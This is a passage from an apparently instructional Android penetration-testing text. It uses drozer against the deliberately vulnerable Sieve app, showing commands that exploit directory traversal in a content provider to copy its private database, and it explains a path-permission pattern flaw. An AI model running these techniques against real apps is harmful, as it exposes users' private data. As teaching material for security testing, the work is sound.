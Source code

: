 127.0.0.1 localhost
```

```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db > database.db
```

A scanner module in drozer allows you to detect directory traversal attacks against file-backed content providers as shown here:

```dz> run scanner.provider.traversal -a content://com.mwr.example.sieve.FileBackupProvider ```
...

Vulnerable Providers:

```content://com.mwr.example.sieve.FileBackupProvider```

- Pattern-Matching Flaws

In all aspects of computer security, logic flaws can exist. Rewinding back to where we discovered information about the Sieve content providers, have a look again at the type of comparison being used to define a permission on the /Keys path:

```
  Authority: com.mwr.example.sieve.DBContentProvider 
    Read Permission: null 
    Write Permission: null 
    Content Provider: com.mwr.example.sieve.DBContentProvider 
    Multiprocess Allowed: True 
    Grant Uri Permissions: False 
    Path Permissions: 
      Path: /Keys 
        Type: PATTERN_LITERAL 
        Read Permission: com.mwr.example.sieve.READ_KEYS 
        Write Permission: com.mwr.example.sieve.WRITE_KEYS 
```
The comparison is done using a literal check. You can find the original form of this check that drozer parsed out in the following snippet of Sieve’s manifest:

```
<provider name=".DBContentProvider" 
              exported="true" 
              multiprocess="true" 
              authorities="com.mwr.example.sieve.DBContentProvider"> 
      <path-permission readPermission="com.mwr.example.sieve.READ_KEYS" 
                       writePermission="com.mwr.example.sieve.WRITE_KEYS" 
                       path="/Keys"> 
      </path-permission> 
 </provider> 
 ```   
On the <path-permission> tag, the path attribute was used. The definition of the path attribute is as follows from http://developer.android.com/guide/topics/manifest/path-permission-element.html:

A complete URI path for a subset of content provider data. Permission can be granted only to the particular data identified by this path...


The key word in this definition is particular. This means that only the /Keys path is being protected by this permission. What about the /Keys/ path? Querying the /Keys path you get a permission denial:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys 